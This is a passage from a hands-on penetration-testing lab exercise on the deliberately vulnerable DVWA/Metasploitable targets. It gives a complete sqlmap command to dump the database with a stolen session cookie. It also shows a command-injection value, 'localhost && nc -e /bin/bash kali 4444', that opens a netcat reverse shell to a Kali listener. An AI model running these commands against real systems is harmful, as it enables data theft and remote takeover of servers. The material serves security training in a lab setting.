 ### Task 2

Use SQLMap to dump the database

-   You'll need to copy your cookie from the browser
-   What RDMS is the target using?
-   Skip test payloads for other RDMSes
-   Which parameter is injectable?
-   What is Pablo Picasso's password?

{% capture code %}
    sqlmap --cookie="<cookie>" --url="http://metasploitable/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --string="surname" --dump
{% endcapture %}
{% include copy-paste.html title="SQLMap" code=code %}

## Exercise 4 : Command Injection

### Task 1

Navigate to **Command Execution**. Inject the command `id`

-   **\<star-wars-reference\> Use the source Luke!
    \</star-wars-reference\>**
-   **nano-Hint**: If ping returns an error, you won't see anything.
-   What user is PHP running as?

### Task 2

Spawn a [reverse
shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) using
Netcat.

### Task 2a

Start a listener using netcat from Kali:

{% capture code %}
nc -v -l -p 4444
{% endcapture %}
{% include copy-paste.html title="Create a listener" code=code %}

### Task 2b

Inject this command: `localhost && nc -e /bin/bash kali 4444`

-   This will start netcat on the remote host and connect back to you
    with a shell
-   It's normal not to have a prompt -- type commands as you normally
    would anyway

### Task 3
